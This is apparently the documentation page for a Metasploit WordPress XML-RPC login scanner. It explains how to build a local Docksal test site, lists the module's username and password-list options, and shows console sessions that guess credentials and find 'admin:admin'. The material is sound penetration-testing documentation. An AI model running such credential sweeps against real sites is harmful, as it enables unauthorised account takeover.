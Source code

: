 ## Vulnerable Application

  This module attempts to authenticate against a Wordpress-site (via 
  XMLRPC) using username and password combinations indicated by the 
  `USER_FILE`, `PASS_FILE`, and `USERPASS_FILE` options.

### Setup using Docksal

Install [Docksal](https://docksal.io/)

Create a new WordPress installation using `fin project create`

```
fin project create
1. Name your project (lowercase alphanumeric, underscore, and hyphen): msf-wp

2. What would you like to install?
  PHP based
    1.  Drupal 8
    2.  Drupal 8 (Composer Version)
    3.  Drupal 7
    4.  Wordpress
    5.  Magento
    6.  Laravel
    7.  Symfony Skeleton
    8.  Symfony WebApp
    9.  Grav CMS
    10. Backdrop CMS

  Go based
    11. Hugo

  JS based
    12. Gatsby JS
    13. Angular

  HTML
    14. Static HTML site

Enter your choice (1-14): 4

Project folder:   /home/weh/dev/msf-wp
Project software: Wordpress
Project URL:      http://msf-wp.docksal

Do you wish to proceed? [y/n]: y
Cloning repository...
Cloning into 'msf-wp'...
...
3. Installing site
 Step 1  Initializing stack...
Removing containers...
...
Starting services...
Creating network "msf-wp_default" with the default driver
Creating volume "msf-wp_cli_home" with default driver
Creating volume "msf-wp_project_root" with local driver
Creating volume "msf-wp_db_data" with default driver
Creating msf-wp_db_1  ... done
Creating msf-wp_cli_1 ... done
Creating msf-wp_web_1 ... done
Connected vhost-proxy to "msf-wp_default" network.
Waiting for project stack to become ready...
 Step 2  Initializing site...
 Step 2  Generating wp-config.php...
Success: Generated 'wp-config.php' file.
 Step 3  Installing site...
msmtp: envelope-from address is missing
Success: WordPress installed successfully.

Open http://msf-wp.docksal in your browser to verify the setup.
Admin panel: http://msf-wp.docksal/wp-admin. User/password: admin/admin  
 DONE!  Completed all initialization steps.
```

## Verification Steps

1. Do: ```use auxiliary/scanner/http/wordpress_xmlrpc_login```
2. Do: ```set RHOSTS [IP]```
3. Do: ```set VHOST [HOSTNAME]```
4. Do: ```set USERNAME [user]```
5. Do: ```set PASSWORD [pass]```
6. Do: ```run```

## Options

**USERNAME**

A specific username to authenticate as

**USER_FILE**

File containing usernames, one per line

**PASSWORD**

A specific password to authenticate with

**PASS_FILE**

File containing passwords, one per line

**USERPASS_FILE**

File containing users and passwords separated by space, one pair per line

**USER_AS_PASS**

Try the username as the password for all users (default: `false`)


## Scenarios

### Wordpress 5.2 running in Docksal

Follow the Instructions above to setup the Docksal Containers.

```
msf > use auxiliary/scanner/http/wordpress_xmlrpc_login 
msf auxiliary(scanner/http/wordpress_xmlrpc_login) > set RHOST msf-wp.docksal
RHOST => msf-wp.docksal
msf auxiliary(scanner/http/wordpress_xmlrpc_login) > set VHOST msf-wp.docksal
VHOST => msf-wp.docksal
msf auxiliary(scanner/http/wordpress_xmlrpc_login) > set USERNAME admin
USERNAME => admin
msf auxiliary(scanner/http/wordpress_xmlrpc_login) > set PASSWORD admin
PASSWORD => admin
msf auxiliary(scanner/http/wordpress_xmlrpc_login) > run

[*] 192.168.64.100:80    :/xmlrpc.php - Sending Hello...
[+] 192.168.64.100:80 - XMLRPC enabled, Hello message received!
[*] Starting XML-RPC login sweep...
[+] 192.168.64.100:80 - Success: 'admin:admin'
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(scanner/http/wordpress_xmlrpc_login) > 

```


### Wordpress 5.2 with disabled or protected XMLRPC

You may see this message also, if you forgot to set the `VHOST` option.


```
msf > use auxiliary/scanner/http/wordpress_xmlrpc_login 
msf auxiliary(scanner/http/wordpress_xmlrpc_login) > set RHOST msf-wp.docksal
RHOST => msf-wp.docksal
msf auxiliary(scanner/http/wordpress_xmlrpc_login) > set USERNAME admin
USERNAME => admin
msf auxiliary(scanner/http/wordpress_xmlrpc_login) > set PASSWORD admin
PASSWORD => admin
msf auxiliary(scanner/http/wordpress_xmlrpc_login) > run

[*] 192.168.64.100:80    :/xmlrpc.php - Sending Hello...
[-] XMLRPC is not enabled! Aborting
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(scanner/http/wordpress_xmlrpc_login) > 

```
